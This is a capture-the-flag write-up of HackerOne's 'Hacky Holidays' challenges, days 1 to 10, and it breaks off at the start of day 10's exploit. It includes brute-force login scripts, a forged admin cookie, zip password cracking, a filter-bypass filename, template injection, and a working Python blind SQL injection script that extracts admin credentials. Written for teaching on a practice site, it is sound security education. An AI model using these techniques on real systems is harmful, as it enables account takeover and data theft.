# h1-ctf: 12 Days of Hacky Holidays
This is my writeup for 12 Days of Hacky Holidays. The report is written such that beginners to CTFs will be able to learn the tricks of the trade.

This report is also available on [HackerOne](https://hackerone.com/reports/1068433).

## The Mission:
> The Grinch has gone hi-tech this year with the intention of ruining the holidays 😱We need you to infiltrate his network and take him down! Check out all the details on https://hackerone.com/h1-ctf  to learn more!

## Contents
I laid out all the days here with easy linking to each challenge solution. For more information about the vulnerability types, https://portswigger.net/web-security/all-materials is a great resource.

Day | Title | Vulnerability
--- | --- | ---
[1](#Day-0x01) | robots.txt | Information Disclosure
[2](#Day-0x02) | DOM Flag | Information Disclosure
[3](#Day-0x03) | People Rater | Insecure Direct Object Reference (IDOR)
[4](#Day-0x04) | Swag Shop | Insecure Direct Object Reference (IDOR)
[5](#Day-0x05) | Secure Login | Password Bruteforcing
[6](#Day-0x06) | My Diary | Business Logic Vulnerability
[7](#Day-0x07) | Hate Mail Generator | Server Side Template Injection (SSTI)
[8](#Day-0x08) | Grinch Forum | Open Source Intelligence (OSINT)
[9](#Day-0x09) | Evil Quiz | SQL Injection
[10](#Day-0x0a) | Sign Up Manager | Business Logic Vulnerability
[11](#Day-0x0b) | Recon Server | SQL Injection / Server Side Request Forgery (SSRF)
[12](#Day-0x0c) | Attack Box | Hash Cracking / DNS Rebinding
---

# Day `0x01`
Let's jump right in and see what the Grinch is up to:



Well, that's not very inviting! Nothing interesting in the response contents. A usual place to look for URL paths of note is the `robots.txt` file. Accessing it at https://hackyholidays.h1ctf.com/robots.txt returned:

```
User-agent: *
Disallow: /s3cr3t-ar3a
Flag: flag{48104912-28b0-494a-9995-a203d1e261e7}
```

Awesome! We have our first flag, `flag{48104912-28b0-494a-9995-a203d1e261e7}`. And if the site is going to "Disallow" robots from accessing `/s3cr3t-ar3a`, then that looks like a great place to check out next.

## Takeaways
- `robots.txt` can sometimes reveal interesting hidden directories

# Day `0x02`
Another day means it is time to make more hot chocolate and capture some more 🚩s.

Let's check out that `/s3cr3t-ar3a` path from yesterday:



Looking closely at the page HTML in the browser developer tools, there's a suspicious div:

```html
<div class="alert alert-danger text-center" id="alertbox" data-info="flag{b7ebcb75-9100-4f91-8454-cfb9574459f7}" next-page="/apps">
```

Alright! We have our flag, `flag{b7ebcb75-9100-4f91-8454-cfb9574459f7}`, and path to check out tomorrow, `/apps`. 

## Takeaways
- Sometimes you can find unintended secrets in a webpage's source

# Day `0x03`
Jumping into `/apps` we can see a list view. Looks like we only have one available right now, but that more will appear as the days go on:



We get a prompt after clicking the button:

> The grinch likes to keep lists of all the people he hates. This year he's gone digital but there might be a record that doesn't belong!

The people rater is pretty simple:



Clicking a name triggers a popup with the Grinch's review of that person:



Rude. Monitoring the network activity with the [Burp Suite](https://portswigger.net/burp) proxy, I could see that pressing the first button sends this request:

**Request:**
```
GET /people-rater/entry?id=eyJpZCI6Mn0=
```

Letters and numbers together ending with an equals sign indicates that the `id` parameter is encoded in base64. Using [CyberChef](https://gchq.github.io/CyberChef/) we can decode the ID from base64 to reveal `{"id":2}`. Pretty weird how the first element in the list has an id of 2 isn't it? I wonder what would happen if we manually requested this api with `{"id":1}` encoded in base64?

**Request:**
```
GET /people-rater/entry?id=eyJpZCI6MX0=
```

```js
{"id":"eyJpZCI6MX0=","name":"The Grinch","rating":"Amazing in every possible way!","flag":"flag{b705fb11-fb55-442f-847f-0931be82ed9a}"}
```

Grinch clearly thinks highly of himself! Let's grab the flag and wait for tomorrow.

## Takeaways
- You can learn how a site API works from intercepting network requests. Then you can interact with the API as you please, even if the UI does not expose the extra functionality.

# Day `0x04`
Looks like the new app of the day from `/apps` is the Swag Shop:
> Get your Grinch Merch! Try and find a way to pull the Grinch's personal details from the online shop.



Not sure about you, but I could do with a backup launcher for my snowballs. Let's buy one.



Hmm, looks like we need to authenticate to buy something. It would be a good idea to explore the API a bit to see what is available.

## Exploring the API
Clicking around the site while proxying through Burp Suite revealed these endpoints:
- `GET /swag-shop/api/stock`
    - Shows the available products in store
- `POST /swag-shop/api/purchase`
    - Attempts to purchase (but returns 401 Unauthorized for us)
- `POST /swag-shop/api/login`
    - Attempts to login

We can fuzz the api with a wordlist from [SecLists](https://github.com/danielmiessler/SecLists) to see if there's anything interesting. The following command shows all requests that return a non 404 response:

```
$ ffuf -w common-api-endpoints-mazen160.txt -u https://hackyholidays.h1ctf.com/swag-shop/api/FUZZ -fc 404 -mc all

sessions                [Status: 200, Size: 2194, Words: 1, Lines: 1]
user                    [Status: 400, Size: 35, Words: 3, Lines: 1]
```

Cool! Let's `GET` the `/swag-shop/api/sessions` endpoint and see the reply:
```js
{
    "sessions": [
        "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJZelZtTlRKaVlUTmtPV0ZsWVRZMllqQTFaVFkxTkRCbE5tSTBZbVpqTW1ObVpHWXpNemcxTVdKa1pEY3lNelkwWlRGbFlqZG1ORFkzTkRrek56SXdNR05pWmpOaE1qUTNZMlJtWTJFMk4yRm1NemRqTTJJMFpXTmxaVFZrTTJWa056VTNNVFV3WWpka1l6a3lOV0k0WTJJM1pXWmlOamsyTjJOak9UazBNalU9In0=",
        "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJaak0yTXpOak0ySmtaR1V5TXpWbU1tWTJaamN4TmpkbE5ETm1aalF3WlRsbVkyUmhOall4TldNNVkyWTFaalkyT0RVM05qa3hNVFEyTnprMFptSXhPV1poTjJaaFpqZzBZMkU1TnprMU5UUTJNek16WlRjME1XSmxNelZoWkRBME1EVXdZbVEzTkRsbVpURTRNbU5rTWpNeE16VTBNV1JsTVRKaE5XWXpPR1E9In0=",
        "eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==",
        "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRFJtWVRCaE4yRmlOalk1TUdGbE9XRm1ZVEU0WmpFMk4ySmpabVl6WldKa09UUmxPR1l3TWpJMU9HSXlOak0xT0RVME5qYzJZVGRsWlRNNE16RmlNMkkxTVRVek16VmlNakZoWXpWa01UYzRPREUzT0dNNFkySmxPVGs0TWpKbE1ESTJZalF6WkRReE1HTm1OVGcxT0RReFpqQm1PREJtWldReFptRTFZbUU9In0=",
        // truncated for brevity
    ]
}
```

The content looks like base64. Let's pop this into CyberChef to decode:

```js
[ 
    {
        "user":null, "cookie":"YzVmNTJiYTNkOWFlYTY2YjA1ZTY1NDBlNmI0YmZjMmNmZGYzMzg1MWJkZDcyMzY0ZTFlYjdmNDY3NDkzNzIwMGNiZjNhMjQ3Y2RmY2E2N2FmMzdjM2I0ZWNlZTVkM2VkNzU3MTUwYjdkYzkyNWI4Y2I3ZWZiNjk2N2NjOTk0MjU="
    }, {
        "user":null, "cookie":"ZjM2MzNjM2JkZGUyMzVmMmY2ZjcxNjdlNDNmZjQwZTlmY2RhNjYxNWM5Y2Y1ZjY2ODU3NjkxMTQ2Nzk0ZmIxOWZhN2ZhZjg0Y2E5Nzk1NTQ2MzMzZTc0MWJlMzVhZDA0MDUwYmQ3NDlmZTE4MmNkMjMxMzU0MWRlMTJhNWYzOGQ="
    }, {
        "user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043", "cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="
    }, {
        "user":null, "cookie":"MDRmYTBhN2FiNjY5MGFlOWFmYTE4ZjE2N2JjZmYzZWJkOTRlOGYwMjI1OGIyNjM1ODU0Njc2YTdlZTM4MzFiM2I1MTUzMzViMjFhYzVkMTc4ODE3OGM4Y2JlOTk4MjJlMDI2YjQzZDQxMGNmNTg1ODQxZjBmODBmZWQxZmE1YmE="
    }
]
```

Now we're cooking. Two things to note here, first, we have cookies, and second, we have a user ID, `C7DCCE-0E0DAB-B20226-FC92EA-1B9043`.

I tried to use the cookies to authenticate on the purchase page, but unfortunately the cookies look to be a bait and don't work.

Let's instead take a closer look at that other endpoint.

**Request:**
```
GET /swag-shop/api/user
```

```js
{
    "error": "Missing required fields"
}
```

Hmm, looks like there's a parameter missing. Time to get fuzzy once more. This command will call the endpoint with every item in the parameter name word list as the query parameter until it finds a result with a non `400 Bad Request` status code:

```
$ ffuf -w burp-parameter-names.txt -u https://hackyholidays.h1ctf.com/swag-shop/api/user\?FUZZ\=1 -fc 400 -mc all

uuid                    [Status: 404, Size: 40, Words: 5, Lines: 1]
```

Okay, looks like `uuid` is the parameter that makes a well formed request. We do have an ID from before that we could put in as the value of the `uuid`.

**Request:**
```
GET /swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043
```
```js
{
    "uuid": "C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
    "username": "grinch",
    "address": {
        "line_1": "The Grinch",
        "line_2": "The Cave",
        "line_3": "Mount Crumpit",
        "line_4": "Whoville"
    },
    "flag": "flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"
}
```

## Takeaways
- You'll frequently encounter content encoded as base64 on the web. Protip: If the string starts with `eyJ` it is probably encoded JSON
- Fuzzing is a technique that can be used to discover additional endpoints and how to use them

# Day `0x05`
Another day means another app! Today's challenge is Secure Login:
> Try and find a way past the login page to get to the secret area.



I tried putting in `admin/admin` just to see what would happen. 



This error message is actually poor security practice. Industry standards would return a more generic message like "Invalid Login". By saying specifically, "Invalid Username", the site is allowing us to determine whether or not a username we enter actually exists on the site. 

I wrote a quick script for the Turbo Intruder Burp Suite extension to attempt logging in with all the usernames in a wordlist. It then makes a note if it can find one that returns a page that doesn't contain the text "Invalid Username":

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('C:/Users/user/dev/SecLists/Usernames/Names/names.txt'):
        engine.queue(target.req, word.strip())


def handleResponse(req, interesting):
    if 'Invalid Username' not in req.response:
        table.add(req)
```

The username `access` returned a page without `Invalid Username` and with an `Invalid Password` message instead. Now that we know a real username, we can attack the password field. This time around, we will look for a page that doesn't respond with "Invalid Password". Turbo Intruder script:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('C:/Users/user/dev/SecLists/Passwords/Leaked-Databases/rockyou-50.txt'):
        engine.queue(target.req, word.strip())


def handleResponse(req, interesting):
    if 'Invalid Password' not in req.response:
        table.add(req)

```

Ok! `computer` is the password. Full request and response:

**Request:**
```
POST /secure-login HTTP/1.1

username=access&password=computer
```
```
HTTP/1.1 302 Found
Set-Cookie: securelogin=eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0%3D; expires=Thu, 17-Dec-2020 01:12:59 GMT; Max-Age=3600; path=/secure-login
```

URL decoded, the cookie we get is `eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=`. Let's put this in the browser as the value for a `securelogin` cookie, and see what happens when we refresh.



We are logged in now! Still, looks like this user isn't able to see very much. The cookie we set was base64 encoded, let's decode it to see if we can find anything interesting.

Decoded, we get `{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}`. Well, `admin` being `false` doesn't do it for me. Let's make our own cookie with admin rights. 

```js
{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":true}
// Apply base64
eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQ==
```

Ok, let's toss our superior cookie into the browser and refresh.



Obviously we are going to need to see what is in this zip file that isn't for us.

```sh
$ unzip my_secure_files_not_for_you.zip 
Archive:  my_secure_files_not_for_you.zip
[my_secure_files_not_for_you.zip] xxx.png password:
```

Another password! Let's try attacking it with the common passwords wordlist we used before:
```
$ fcrackzip -b -D -p rockyou.txt -u my_secure_files_not_for_you.zip

PASSWORD FOUND!!!!: pw == hahahaha
```

Great password. When we type it in we are greeted by two files:

1. **xxx.png**

    

...not sure what to make of that.

2. **flag.txt**
   
    `flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004}`

## Takeaways:
- If a login page differentiates between an invalid user and invalid password error message, you can determine whether or not users exist on a site
- Cookies can sometimes be decoded and updated to make a server behave differently
- Password protected zip files can be bruteforced

# Day `0x06`
Let's jump in!
> Hackers! It looks like the Grinch has released his Diary on Grinch Networks. We know he has an upcoming event but he hasn't posted it on his calendar. Can you hack his diary and find out what it is?



The URL structure (`https://hackyholidays.h1ctf.com/my-diary/?template=entries.html`) looks as though the server is rendering the user specified file. We may be able to find more files to render. Let's get fuzzy:

```
$ ffuf -w raft-small-files.txt -u https://hackyholidays.h1ctf.com/my-diary/\?template\=FUZZ -fc 302 -mc all

index.php               [Status: 200, Size: 689, Words: 126, Lines: 22]
.                       [Status: 200, Size: 0, Words: 1, Lines: 1]
_index.php              [Status: 200, Size: 689, Words: 126, Lines: 22]
```
Alrighty, let's access `https://hackyholidays.h1ctf.com/my-diary/?template=index.php` and see what happens:

**Response:**
```php
<?php
if( isset($_GET["template"])  ){
    $page = $_GET["template"];
    //remove non allowed characters
    $page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
    //protect admin.php from being read
    $page = str_replace("admin.php","",$page);
    //I've changed the admin file to secretadmin.php for more security!
    $page = str_replace("secretadmin.php","",$page);
    //check file exists
    if( file_exists($page) ){
       echo file_get_contents($page);
    }else{
        //redirect to home
        header("Location: /my-diary/?template=entries.html");
        exit();
    }
}else{
    //redirect to home
    header("Location: /my-diary/?template=entries.html");
    exit();
}
```

Awesome, we can see how the pages get rendered. The code gets the name of the file to render as the `template` query parameter. It then strips out any characters that aren't a letter, number, or period. Then it removes occurrences of `admin.php`. Then it removes occurences of `secretadmin.php`. 

We can tell from the comments that `secretadmin.php` is the file we need to access. This will be a bit tricky though considering the text substitutions being made. To make this easier, I copy pasted the critical section of the code into a local editor until I could find a way around this. The key insight is realizing that you can structure your input such that after applying the substitutions you still have the keywords you need. For example, "admin`admin.php`.php" run through the first filter gives you `admin.php` as an output.

With some fiddling, I found this string which works: `secretadmin.phpadminsecretadmin.admin.phpphp.php`. Let's see why this works line by line:

```php
<?php
$page = 'secretadmin.phpadminsecretadmin.admin.phpphp.php';

$page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
// $page = 'secretadmin.phpadminsecretadmin.admin.phpphp.php'
$page = str_replace("admin.php","",$page);
// $page = 'secretadminsecretadmin.php.php'
$page = str_replace("secretadmin.php","",$page);
// $page = 'secretadmin.php'
```

Querying `https://hackyholidays.h1ctf.com/my-diary/?template=secretadmin.phpadminsecretadmin.admin.phpphp.php` gives us:
```html
<?php
if( $_SERVER["REMOTE_ADDR"] == '127.0.0.1' ){
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <title>My Diary</title>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
</head>
<body>
<div class="container">
    <div class="text-center"></div>
    <h1 class="text-center">My Diary</h1>
    <h4 class="text-center">flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}</h4>
    <div class="row" style="margin-top:30px">
        <div class="col-md-6 col-md-offset-3">
            <div class="panel panel-default">
                <div class="panel-heading">Pending Entries</div>
                <div class="panel-body" style="padding:0">
                    <table class="table" style="margin:0">
                        <tr>
                            <th>Date</th>
                            <th>Event</th>
                            <th class="text-center">Action</th>
                        </tr>
                        <tr>
                            <td>23rd Dec</td>
                            <td>Launch DDoS Against Santa's Workshop!</td>
                            <td class="text-center"><input type="button" class="btn btn-danger btn-xs" value="Post"></td>
                        </tr>
                    </table>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
<?php
}else{
    die("You cannot view this page from your IP Address");
}
```

We found the secret diary entry, and the flag! `flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}`

# Day `0x07`
> Sending letters is so slow! Now the grinch sends his hate mail by email campaigns! Try and find the hidden flag!



There's only one campaign available, let's take a look:



Looks like there is some templating being used to display html fragments and variables. By clicking preview, we can see how it renders:



By using the "Create New" button, we can write our own template and preview it. 



We can intercept the request and interact with the API directly.

**Request:**
```
POST /hate-mail-generator/new/preview
preview_markup=Hello+{{name}}+....&preview_data={"name":"Alice","email":"alice@test.com"}
```
```
Hello Alice ....
```

From playing with the request a bit I could gather that the server is parsing `preview_data` as JSON, and then substituting anything in `{{}}` markers in `preview_markup` with the value of the JSON key of the same name. This behavior prevents us from doing a typical template injection with function calls in the `{{}}` markers.

There didn't seem to be any obvious attack here, I decided to fuzz once again.

```sh
$ ffuf -w raft-small-words.txt -u https://hackyholidays.h1ctf.com/hate-mail-generator/FUZZ -fc 404 -mc all
templates               [Status: 302, Size: 0, Words: 1, Lines: 1]
new                     [Status: 200, Size: 2494, Words: 440, Lines: 49]
```

Hmm, templates, you say? Let's take a look at that.



Well. We are going to need to take a look at that "admins only" header! Unfortunately, clicking any of these links gives a 403 Forbidden error.

Still, we saw in the example campaign that there is a way to render these files in emails. We can give it a try:

**Request:**
```
POST /hate-mail-generator/new/preview
preview_markup=Hello+{{template:38dhs_admins_only_header.html}}+....&preview_data={"name":"Alice","email":"alice@test.com"}
```
```
You do not have access to the file 38dhs_admins_only_header.html
```

No dice. We could also try sending the template as part of the JSON to be substituted into the markup. This way the content may pass an initial security check while still rendering the content we want.

**Request:**
```
POST /hate-mail-generator/new/preview
preview_markup=Hello+{{name}}+....&preview_data={"name":"{{template:38dhs_admins_only_header.html}}","email":"alice@test.com"}
```

```html
Hello <html>
<body>
<center>
    <table width="700">
        <tr>
            <td height="80" width="700" style="background-color: #64d23b;color:#FFF" align="center">Grinch Network Admins Only</td>
        </tr>
        <tr>
            <td style="padding:20px 10px 20px 10px">
                <h4>flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd}</h4> ....
```

Flag captured! `flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd}`

# Day `0x08`
> The Grinch thought it might be a good idea to start a forum but nobody really wants to chat to him. He keeps his best posts in the Admin section but you'll need a valid login to access that!



The login page shows a generic "Username/Password Combination is invalid" which means we can't enumerate usernames like last time. The forum posts did show posts by a user named `grinch` and another named `max`. I tried to use a wordlist to find their passwords, but this seemed to be a dead end. 

To the fuzzmobile!

```
$ ffuf -w raft-small-words.txt -u https://hackyholidays.h1ctf.com/forum/FUZZ

1                       [Status: 200, Size: 2249, Words: 788, Lines: 64]
2                       [Status: 200, Size: 1885, Words: 512, Lines: 58]
phpmyadmin              [Status: 200, Size: 8880, Words: 956, Lines: 79]
```

`1` and `2` are links to subforums you can see from navigating the site. `phpmyadmin` is interesting though! 



There really didn't seem to be any more content on the site. Time to look for information off the site!

I used a [Google Dork](https://en.wikipedia.org/wiki/Google_hacking) to see if any of the source code was publicly:



One result, and it is about `Grinch-Networks/forum`! Perfect!

I looked through the commit messages to see if any caught my attention. [small fix](https://github.com/Grinch-Networks/forum/commit/efb92ef3f561a957caad68fca2d6f8466c4d04ae) looked like a good place to start.

The diff had:
```php
    static public function read(){
        if( gettype(self::$read) == 'string' ) {
-            self::$read = new DbConnect( false, 'forum', 'forum','6HgeAZ0qC9T6CQIqJpD' );
+            self::$read = new DbConnect( false, '', '','' );
        }
        return self::$read;
    }
```

Cool, some database credentials. We can use this to get into phpMyAdmin.



I used https://crackstation.net/ to crack the hash of the `grinch` admin user. The saved value is an MD5 hash of the string `BahHumbug`. Now we can log into the main forum with the grinch credentials to see hidden posts.



`flag{677db3a0-f9e9-4e7e-9ad7-a9f23e47db8b}`

## Takeaways:
- Commit histories can contain sensitive data.
- Salt your fries and your passwords! Unsalted passwords are far easier to crack.

# Day `0x09`
> Just how evil are you? Take the quiz and see! Just don't go poking around the admin area!

What's in store this time?



There's a big button to access the Admin area, but it requires a username and password. The main focus though is the quiz, where you can enter your name and then step through the pages.




When hunting for vulnerabilities, it's good to start by seeing how your input is able to change your target's output. I noticed right away the unusual stat of "There is X other player(s) with the same name as you!". I thought a bit about how that might be implemented on the server. Probably something like:

```python
query = "SELECT count(*) FROM users WHERE name = '" + userInput + "'"
```

If the server isn't sanitizing the input properly, it could be vulnerable to a SQL injection attack. To test this, I crafted a simple payload, setting the name to `' OR 1=1-- `. If we are lucky, the server will process the request like:

```sql
SELECT count(*) FROM users WHERE name = '' OR 1=1-- '
```

This would return the count of all records where either their name is `''` or it is true that `1=1`. Since 1 always equals itself, this would return all records. After clicking through the quiz page to get to the score, I got the result:

```
' OR 1=1-- You Scored
0/3
You're not evil at all!
There is 187882 other player(s) with the same name as you!
```

Awesome! This confirms the vulnerability. This is a "blind" SQL injection because we can't see the database data directly, but we can infer information based on how the page returns. From here I tried to extract a little information:

## How Many Columns Are In The Current Table?
This information is useful to know for when we run `union` queries later. I ran through the quiz using the following names
```
test' ORDER BY 1-- # Returned 143 users with the same name
test' ORDER BY 2-- # Returned 143 users with the same name
test' ORDER BY 3-- # Returned 143 users with the same name
test' ORDER BY 4-- # Returned 143 users with the same name
test' ORDER BY 5-- # Returned 0 users with the same name
```

This means that we have 4 columns in the current table. Ordering by a nonexistent column is not valid.

## What Is The User Table Named?
I had assumed it was named `users`, but doing a sanity test suggested otherwise:
```
test' UNION SELECT 1,2,3,4 FROM users-- # Returned 0 users
```

Other common names like `user`, `accounts`, `account` were not working either. MySQL has a special database `information_schema.tables` which stores information about the other tables in the database. We can use the injection vulnerability to read this information character by character. My idea was to use names like the following:

```
testerbtgsg54g45' union select table_schema, table_name, 1, 1 from information_schema.tables where table_name like binary '<char>%'-- 
```

To explain, the first part of the query is a nonsense name that doesn't exist. We then do a UNION to select a table_name from the information schema. Note that we select 4 values in order to match the 4 columns of the table that is currently being searched. The last part is where we could put a letter and then a wildcard. Then we know that whichever letter returned "1 other player(s) with the same name as you!" would be the letter a table starts with. And we could go character by character. 

## Exfiltrating the Data

From here I wrote a script to find the table name and the username and password of the admin:

```python
#!/usr/bin/env python3

import requests
import re
import sys

ENDPOINT = 'https://hackyholidays.h1ctf.com/evil-quiz/'
LOWERCASE = 'abcdefghijklmnopqrstuvwxyz'
ALL_CHARS = LOWERCASE + 'ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890' + '-$_'
table_name_exploit = "union select table_schema, table_name, 1, 1 from information_schema.tables where table_name like binary "
username_exploit = "union select 1, 2, 3, 4 from admin where username like binary "
password_exploit = "union select 1, 2, 3, 4 from admin where password like binary "
cookie = ''

def process(exploit, charset=LOWERCASE):
    accumulator = ''
    while True:
        for char in charset:
            if run_exploit(exploit + f"'{accumulator}{char}%'"):
                accumulator += char
                break
        print(f"Result: '{accumulator}%'")

def run_exploit(exploit):
    payload = build_payload(exploit)
    name = requests.post(ENDPOINT, cookies=cookie, data = {'name': payload})
    start = requests.post(ENDPOINT + 'start', cookies=cookie, data = {'ques_1': 0, 'ques_2': 0, 'ques_3': 0})
    score = requests.get(ENDPOINT + 'score', cookies=cookie)
    
    success = int(re.search("There is ([0-9]+) other player\(s\) with the same name as you!", str(score.content)).groups()[0]) > 0
    return success

def build_payload(exploit):
    return "testerbtgsg54g45' " + exploit + "-- "

r = requests.get(ENDPOINT)
cookie = { 'session': r.cookies['session'] }

sys.argv[1] == 'TABLE_NAME' and process(table_name_exploit) # admin
sys.argv[1] == 'USERNAME' and process(username_exploit)
sys.argv[1] == 'PASSWORD' and process(password_exploit, charset=ALL_CHARS)

```

Running the thing:
```sh
$ ./script.py TABLE_NAME
Result: 'a%'
Result: 'ad%'
Result: 'adm%'
Result: 'admi%'
Result: 'admin%'
```

I put this table name into the username and password exploit strings. From here I could pull the login:
```
$ ./script.py USERNAME  
Result: 'a%'
Result: 'ad%'
Result: 'adm%'
Result: 'admi%'
Result: 'admin%'

./script.py PASSWORD
Result: 'S3creT_%'
Result: 'S3creT_p%'
Result: 'S3creT_p4%'
Result: 'S3creT_p4s%'
Result: 'S3creT_p4ss%'
Result: 'S3creT_p4ssw%'
Result: 'S3creT_p4ssw0%'
Result: 'S3creT_p4ssw0r%'
Result: 'S3creT_p4ssw0rd%'
Result: 'S3creT_p4ssw0rd-%'
Result: 'S3creT_p4ssw0rd-$%'
```

Logging in with the `admin/S3creT_p4ssw0rd-$` credentials gives the flag:

`flag{6e8a2df4-5b14-400f-a85a-08a260b59135}`

# Day `0x0a`

> You've made it this far! The grinch is recruiting for his army to ruin the holidays but they're very picky on who they let in!



We don't have credentials to log in. Registering a new account takes us to a user page:



Sometimes when inspecting the HTML of webpages you can find some hidden information. Looks like Grinch forgot to delete a comment in the framework he was using on the main page:

```html
<!-- See README.md for assistance -->
```

Well if Grinch can see `README.md`, why shouldn't we? Downloading `/signup-manager/README.md` we get:

```md
# SignUp Manager

SignUp manager is a simple and easy to use script which allows new users to signup and login to a private page. All users are stored in a file so need for a complicated database setup.

### How to Install

1) Create a directory that you wish SignUp Manager to be installed into

2) Move signupmanager.zip into the new directory and unzip it.

3) For security move users.txt into a directory that cannot be read from website visitors

4) Update index.php with the location of your users.txt file

5) Edit the user and admin php files to display your hidden content

6) You can make anyone an admin by changing the last character in the users.txt file to a Y

7) Default login is admin / password
```

There's a bunch of information we can gather here. The default login was just a bait, but `/signup-manager/signupmanager.zip` can be downloaded! Unzipping the file we gain access to the source PHP files. Most importantly, `index.php`, which shows how our users are being saved. Let's look at a few key areas of the file:

## index.php - Input Validation

```php
$username = substr(preg_replace('/([^a-zA-Z0-9])/', '', $_POST["username"]), 0, 15);
if (strlen($username) < 3) {
    $errors[] = 'Username must by at least 3 characters';
} else {
    if (isset($all_users[$username])) {
        $errors[] = 'Username already exists';
    }
}
$password = md5($_POST["password"]);
$firstname = substr(preg_replace('/([^a-zA-Z0-9])/', '', $_POST["firstname"]), 0, 15);
if (strlen($firstname) < 3) {
    $errors[] = 'First name must by at least 3 characters';
}
$lastname = substr(preg_replace('/([^a-zA-Z0-9])/', '', $_POST["lastname"]), 0, 15);
if (strlen($lastname) < 3) {
    $errors[] = 'Last name must by at least 3 characters';
}
if (!is_numeric($_POST["age"])) {
    $errors[] = 'Age entered is invalid';
}
if (strlen($_POST["age"]) > 3) {
    $errors[] = 'Age entered is too long';
}
$age = intval($_POST["age"]);
if (count($errors) === 0) {
    $cookie = addUser($username, $password, $age, $firstname, $lastname);
    setcookie('token', $cookie, time() + 3600);
    header("Location: " . explode("?", $_SERVER["REQUEST_URI"])[0]);
    exit();
}
```

1. For the `username`, `firstname`, and `lastname`, the server deletes any character that isn't a number or letter, and then truncates to the first 15 characters.
1. For the `password`, the server saves the MD5 hash of the input. (Note for later that MD5 hashes have a length of 32 characters).
1. If the `age` passes the `is_numeric` check, and has a string length under 3, the integer value gets saved.

## index.php - Saving a New User
```php
function addUser($username,$password,$age,$firstname,$lastname){
    $random_hash = md5( print_r($_SERVER,true).print_r($_POST,true).date("U").microtime().rand() );
    $line = '';
    $line .= str_pad( $username,15,"#");
    $line .= $password;
    $line .= $random_hash;
    $line .= str_pad( $age,3,"#");
    $line .= str_pad( $firstname,15,"#");
    $line .= str_pad( $lastname,15,"#");
    $line .= 'N';
    $line = substr($line,0,113);
    file_put_contents('users.txt',$line.PHP_EOL, FILE_APPEND);
    return $random_hash;
}
```
Once the inputs have been validated, they get saved to `users.txt` here as one line per user. The variables in the line get padded to specific lengths. The README file mentioned that if the last character is "Y" you are an admin. We can assume this `'N'` that is hardcoded makes us a non admin.

An example line in `users.txt` could look like: `hello##########7d793037a0760186574b0282f2f435e7ce9e931b3203a7f3723b512b7f0801d610#first##########last###########N`

## index.php - Fetching Users From The ~~Database~~ users.txt
```php
function buildUsers(){
    $users = array();
    $users_txt = file_get_contents('users.txt');
    foreach( explode(PHP_EOL,$users_txt) as $user_str ){
        if( strlen($user_str) == 113 ) {
            $username = str_replace('#', '', substr($user_str, 0, 15));
            $users[$username] = array(
                'username' => $username,
                'password' => str_replace('#', '', substr($user_str, 15, 32)),
                'cookie' => str_replace('#', '', substr($user_str, 47, 32)),
                'age' => intval(str_replace('#', '', substr($user_str, 79, 3))),
                'firstname' => str_replace('#', '', substr($user_str, 82, 15)),
                'lastname' => str_replace('#', '', substr($user_str, 97, 15)),
                'admin' => ((substr($user_str, 112, 1) === 'Y') ? true : false)
            );
        }
    }
    return $users;
}
```

When you navigate to the page logged in, your user information gets plucked from `users.txt` via this method. We can see that the server expects everything to be defined nicely at the proper index offsets in the line. The padding characters get stripped, and very interestingly, index 112 determines whether or not the user was an admin. If we can get a `Y` to appear here, the system will think we are an admin.

## Making the Exploit
